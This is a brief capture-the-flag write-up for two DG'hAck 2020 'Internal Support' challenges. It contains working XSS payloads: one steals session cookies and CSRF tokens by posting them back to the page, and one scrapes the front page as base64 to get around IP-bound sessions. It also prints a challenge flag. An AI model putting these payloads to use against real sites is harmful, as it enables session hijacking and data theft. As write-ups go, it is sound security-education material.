 ```yaml
---
title: "DG'hAck: Easy Challenges"
date: 2020-11-30T19:45:41+01:00
tags:
  - dghack2020
summary: "Short write-up of the easiest DG'hAck challenges."
---
```


# Internal Support 1

Just a basic XSS. Grab the session cookies & you're basically done:

```javascript
<script>
window.onload = function() {
  var http = new XMLHttpRequest();
  var params = 'response=' + document.cookie + '&csrf_token=' + document.getElementById("csrf_token").value;
  console.log(params);

  http.open('POST', document.URL, true);
  http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
  http.send(params);
}
</script>
```

You'll get the session cookie dumped, and you'll be able to get the flag by replacing your own cookie by the one dumped. As a result:

```sh
Hide the flag "NoUserValidationIsADangerousPractice" a little bit better
```

# Internal Support 2

The same than Internal Support 1, but with 2 restrictions:

 * You can't paste JS anymore;
 * There is some IP checks for sessions (You can't re-use a cookie from another IP).

As we can't re-use the cookie, we'll c/p paste the front page instead:

```javascript
var z=new XMLHttpRequest();
z.open('GET', '/', false);
z.send(null);
var t=document.createElement("div");
t.innerHTML = z.responseText;
z.open('POST',document.URL,true);
z.setRequestHeader('Content-type','application/x-www-form-urlencoded');
z.send('response='+btoa(t.textContent.replace(/\s\s+/g,' '))+'&csrf_token='+document.getElementById("csrf_token").value);
```
